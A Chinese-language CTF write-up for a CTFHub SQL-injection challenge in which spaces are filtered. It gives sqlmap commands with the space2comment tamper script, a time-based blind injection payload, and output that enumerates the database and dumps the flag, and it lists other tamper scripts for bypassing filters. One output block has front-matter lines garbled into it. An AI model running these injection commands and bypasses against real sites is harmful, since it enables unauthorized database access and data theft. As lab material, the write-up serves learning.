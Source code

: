 ```yaml
---
cover: https://w.wallhaven.cc/full/ox/wallhaven-oxey6p.jpg
created: 2024-11-27T22:18
date: 2024-11-24 03:19:04+00:00
lastmod: 2024-11-24 04:01:52+00:00
tag: web渗透
title: 过滤空格
updated: 2024-12-30T23:33
---
```


# 过滤空格

**第一步** 爆数据库

命令： python sqlmap.py -u "http://challenge-427e4b69b55064d9.sandbox.ctfhub.com:10080/?id\=1" --dbs --tamper "space2comment.py"

补充：

脚本名： space2comment.py

作用：**Replaces space character  ' '  with comments   /**/**

也就是用注释/\*\*/替换空格字符' '

 sqlmap 中的 tamper 脚本有很多，例如： equaltolike.py （作用是用like代替等号）、 apostrophemask.py （作用是用utf8代替引号）、 greatest.py （作用是绕过过滤'\>' ,用GREATEST替换大于号）等。

```shell
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9677 FROM (SELECT(SLEEP(5)))ZfwJ)
tags: [web渗透]
title: 过滤空格
title: 过滤空格
title: 过滤空格
tags: [web渗透]
title: 过滤空格
tags: [web渗透]
---
```

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

```shell
Database: sqli
[2 tables]
+------------+
| braoolkycm |
| news       |
+------------+

```

```shell
Database: sqli
Table: braoolkycm
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| inybzfejkt | varchar(100) |
+------------+--------------+
```

```shell
sqlmap -u http://challenge-3de719b11fcb3158.sandbox.ctfhub.com:10800/?id=1 --tamper "space2comment.py" -D sqli -T braoolkycm -C inybzfejkt --dump --thread 10
```

--thread多线程

```shell
Database: sqli
Table: braoolkycm
[1 entry]
+----------------------------------+
| inybzfejkt                       |
+----------------------------------+
| ctfhub{0691522132f19a6c0aeff1d7} |
+----------------------------------+
```
